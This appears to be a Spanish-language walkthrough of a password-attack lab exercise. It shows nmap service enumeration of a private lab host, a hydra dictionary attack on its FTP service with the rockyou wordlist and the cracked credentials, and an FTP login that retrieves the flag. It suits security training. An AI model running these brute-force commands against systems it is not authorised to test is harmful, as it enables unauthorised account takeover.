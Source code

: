 # Walk: Password Attacks - SSH and RDP - VM #3

## Fecha: 19/02/2025
## Host: Windows
## IP: 192.168.202.202
## Objetivo
Enumerate VM #3 (BRUTE2) and find another network service. Use the knowledge from this section to get access as the _itadmin_ user and find the flag.
## Herramientas
1. nmap
2. hydra
## Procedimiento y comandos
#### Paso 1: Escanemos el host para enumerar servicios:
- `nmap -sV --open 192.168.202.202 -oN vm-3.nmap-result.txt `
```
Nmap scan report for 192.168.202.202
Host is up (0.19s latency).
Not shown: 993 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           FileZilla ftpd 1.4.1
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
8000/tcp open  http          Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
- Intentamos atacar **FTP**
#### Paso 2: Ejecutamos el ataque de diccionario con hydra:
- `hydra -l itadmin -P /usr/share/wordlists/rockyou.txt -s 21 ftp://192.168.202.202`
```
un paquete de doritos despues > > >
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-20 02:26:18
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://192.168.202.202:21/
[21][ftp] host: 192.168.202.202   login: itadmin   password: hellokitty
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-02-20 02:26:31
```
- [21][ftp] host: 192.168.202.202   login: itadmin password: **hellokitty**
#### Paso 3: Nos conectamos por ftp con el usuario itadmin:
```
 ftp 192.168.202.202
Connected to 192.168.202.202.
220-FileZilla Server 1.4.1
220 Please visit https://filezilla-project.org/
Name (192.168.202.202:kali): itadmin
331 Please, specify the password.
Password: hellokitty
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> get flag.txt
local: flag.txt remote: flag.txt
229 Entering Extended Passive Mode (|||49723|)
150 Starting data transfer.
100% |*********************************************************************************************************************************************************************|    38      426.54 KiB/s    00:00 ETA
226 Operation successful
38 bytes received in 00:00 (179.27 KiB/s)
ftp> 
```
- En mi directorio de trabajo:
  - `cat flag.txt`
